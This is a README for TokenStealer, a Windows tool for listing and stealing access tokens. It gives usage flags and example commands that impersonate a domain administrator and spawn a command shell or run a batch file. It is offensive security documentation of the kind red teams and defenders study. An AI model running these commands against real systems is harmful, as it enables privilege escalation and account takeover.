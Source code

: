 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br><br>
TokenStealer.exe<br>
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] v1.0 @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all user's token<br>
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]<br>
         -p: `<pid>` list/steal  token from specfic  process pid<br>
         -u: `<user>` list/steal token of user<br>
         -c: `<command>` command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: `<token level>` needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
         -s: `<SessionId>` list/steal token from specific Session ID
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2 </b>-> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available<be>



